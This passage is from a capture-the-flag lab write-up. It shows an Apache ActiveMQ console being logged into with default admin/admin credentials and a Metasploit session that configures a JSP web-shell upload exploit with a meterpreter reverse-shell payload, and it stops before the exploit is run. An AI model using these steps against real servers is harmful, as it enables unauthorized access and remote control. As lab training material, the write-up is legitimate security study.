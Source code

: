 So I have searched for the default credientials for the admin account and they've said that:

The default administration user name and password for the Apache ActiveMQ Administration Console is **admin** and **admin** respectively. You should change these default credentials.

So, I have tried it and it worked!

_FLAG33_
![http4_2](post/Hollywood_PwnTillDawn/imgs/8.JPG)

Now, We have to get a **Reverse shell** in order to get the last flag from the system.

## Exploitation

Let's search if there are any exploits for **Apache ActiveMQ**!

I came across an exploit from the [Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/apache_activemq_upload_jsp/) and we will use **Metasploit** ofcourse in order to this exploit which will be a **Web Shell** upload.

Let's make our way to get the **RevShell**!

```bash
msf6 > use exploit/multi/http/apache_activemq_upload_jsp
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_activemq_upload_jsp) > show targets
Exploit targets:
   Id  Name
   --  ----
   0   Java Universal
   1   Linux
   2   Windows
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set target 2
target => 2
msf6 exploit(multi/http/apache_activemq_upload_jsp) > show options

Module options (exploit/multi/http/apache_activemq_upload_jsp):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   AutoCleanup    true             no        Remove web shells after callback is received
   BasicAuthPass  admin            yes       The password for the specified username
   BasicAuthUser  admin            yes       The username to authenticate as
   JSP                             no        JSP name to use, excluding the .jsp extension (default: random)
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          8161             yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                           no        HTTP server virtual host
Payload options (java/meterpreter/reverse_tcp):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.152.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   2   Windows
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set RHOSTS 10.150.150.219
RHOSTS => 10.150.150.219
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set LHOST 10.66.X.X
```